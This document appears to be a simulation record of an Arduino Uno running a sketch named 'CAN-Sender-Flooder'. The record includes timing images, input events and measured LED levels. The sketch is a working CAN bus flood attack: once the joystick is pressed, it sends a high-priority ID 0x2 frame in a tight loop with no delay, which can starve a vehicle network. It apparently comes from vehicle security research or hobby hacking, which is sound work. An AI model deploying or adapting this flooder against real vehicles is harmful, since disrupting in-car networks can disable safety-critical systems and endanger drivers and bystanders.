
Recording of a sketch running on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench; at power-on: A4 (CLICK) HIGH.

Above: at 1.8 s.
1.9 s: A4 (CLICK) pulled LOW for 0.15 s
At 4.95 s:

5.0 s: A4 (CLICK) pulled LOW for 1 s
At 5.7 s:

Timing chart, 0 to 8.0 s (numbered marks = the images above; inputs shaded):


The sketch:

CAN-Sender-Flooder.ino
```cpp
/****************************************************************************
                  (MCP2515) CAN Bus Sender - FLOOD ATTACK

Author: Samuel De La Motte
Contact: samuel.delamotte1@gmail.com
Date: 26/05/2020
Version: 1.0

Based off the Arduino tutorial found at the following link:
https://www.instructables.com/id/Hack-your-vehicle-CAN-BUS-with-Arduino-and-Seeed-C/
*****************************************************************************/
//*******************************LIBRARIES**********************************//
#include <SPI.h>
#include "mcp_can.h"

//******************************DEFINITIONS*********************************//
// Serial port data rate
#define SERIAL_SPEED 115200

// CAN bus data rate
#define CAN_BITRATE 500

// Joystick click pin
#define CLICK A4

//Define LED pins
#define LED2 8
#define LED3 7

//************************CAN MESSAGE CONFIGURATION*************************//
// CAN message ID (in HEX), payload and length
unsigned long ID = 0x2;  // 1349
unsigned long LENGTH = 8;
unsigned char PAYLOAD[8] = {3, 2, 1, 4, 2, 1, 4, 8};
unsigned char PAYLOAD2[8] = {0xDA, 0, 0, 0x78, 0, 0, 0, 0};

//*******************************CONSTANTS**********************************//
// Initialise chip select pins
const int CAN_CS_PIN = 10; // MCP2515 pin

// Set the CAN bus speed according to CAN_BITRATE
#if (CAN_BITRATE == 500)
  const byte CAN_SPEED = CAN_500KBPS;
#elif (CAN_BITRATE == 250)
  const byte CAN_SPEED = CAN_250KBPS;
#elif (CAN_BITRATE == 125)
  const byte CAN_SPEED = CAN_125KBPS;
#else
  const byte CAN_SPEED = CAN_500KBPS;
#endif

//********************************GLOBALS***********************************//
// CAN Object
MCP_CAN CAN(CAN_CS_PIN);
int count = 0;

//*******************************SETUP LOOP*********************************//
void setup() {
  // Initialise pins
  pinMode(CLICK,INPUT);
  pinMode(LED2, OUTPUT);
  pinMode(LED3, OUTPUT);

  // Pull analog pins high to enable reading of joystick click
  digitalWrite(CLICK, HIGH);

  // Write LED pins low to turn them off by default
  digitalWrite(LED2, LOW);
  digitalWrite(LED3, LOW);

  // Initialise serial bus
  Serial.begin(SERIAL_SPEED);
  if (Serial) {
    Serial.print("[INFO] - SERIAL SPEED: "); Serial.println(SERIAL_SPEED);
  } else {
    while (1) {
      Serial.println("[ERROR] - CAN'T INITIALISE USB SERIAL");
      delay(100);
    }
  }

  // Initialise MCP2515 CAN controller at the specified speed
  Serial.print("[INFO] - CAN BITRATE: "); Serial.println(CAN_BITRATE);
  byte canSpeed = CAN_SPEED;
  while (CAN.begin(canSpeed) != CAN_OK) {
    Serial.println("[ERROR] - CAN'T INITIALISE CAN");
    delay(100);
  }

  // CAN sender is ready
  Serial.println("[INFO] - SYSTEM READY");
}

//********************************MAIN LOOP*********************************//
void loop() {
START:
  // Pause the program to wait for the user to press the joystick
  count = 0;
  delay(1000);
  while (digitalRead(CLICK)==HIGH) {
      // Wait again for joystick press
      if (count == 0) {
        Serial.println("[PAUSED] - Press the joystick to begin.");
        count = 1;
      }
  }

  Serial.println("[INFO] - SYSTEM STARTING...");
  Serial.println("3");
  delay(1000);
  Serial.println("2");
  delay(1000);
  Serial.println("1");
  delay(1000);

  // Sending the CAN message
  while (digitalRead(CLICK)==HIGH) {
    // Turn on LED to indicate CAN Bus traffic
    digitalWrite(LED3, HIGH);

    // Send CAN message
    CAN.sendMsgBuf(ID,0,LENGTH,PAYLOAD); // 0 means standard frame length, 1 is extended
    //CAN.sendMsgBuf(0x545,0,8,PAYLOAD2); // 0 means standard frame length, 1 is extended
    //delay(300);

    // Turn off LED3
    digitalWrite(LED3, LOW);
  }
  // User pressed the joystick again, stop sending can message
  goto START;
}
```

Measured:
- after the input at 1.9 s, pin 7 (LED3): 0/255 → 226/255 after 3.0 s
- after the input at 5.0 s, pin 7 (LED3): 226/255 → 0/255 at once
